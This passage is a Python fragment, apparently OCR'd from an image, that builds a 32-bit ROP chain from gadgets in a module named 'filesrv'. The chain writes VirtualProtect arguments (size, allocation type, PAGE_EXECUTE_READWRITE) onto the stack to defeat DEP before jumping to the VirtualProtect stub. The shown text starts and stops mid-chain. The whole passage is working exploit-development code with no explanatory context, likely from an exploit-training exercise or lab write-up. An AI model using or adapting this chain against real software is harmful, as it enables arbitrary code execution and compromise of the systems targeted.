 ```python
rop += p32(0xfffffc10) #0x3f0
rop += p32(filesrv+0x00059a05) # sub eax, edx; pop ebp; ret;)
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;

#increasing the stack pointer in ecx
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;

#memory to virtualprotect (same as ret)
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xfffffc14) #0x3f0-4
rop += p32(filesrv+0x00059a05) # sub eax, edx; pop ebp; ret;)
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;

#increasing the stack pointer in ecx
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;

#dwsize 0x1
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffffff) #-1
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;

#increasing the stack pointer in ecx
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;

#flAllocationType 0x1000
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffefff) #-0x1001
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x000774c6) # dec eax; ret
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;

#increasing the stack pointer in ecx
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;

#flProtect 0x40
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffffc0) #-0x40
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;

#jumping to virtualprotect stub
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffffec) # - 0x14
```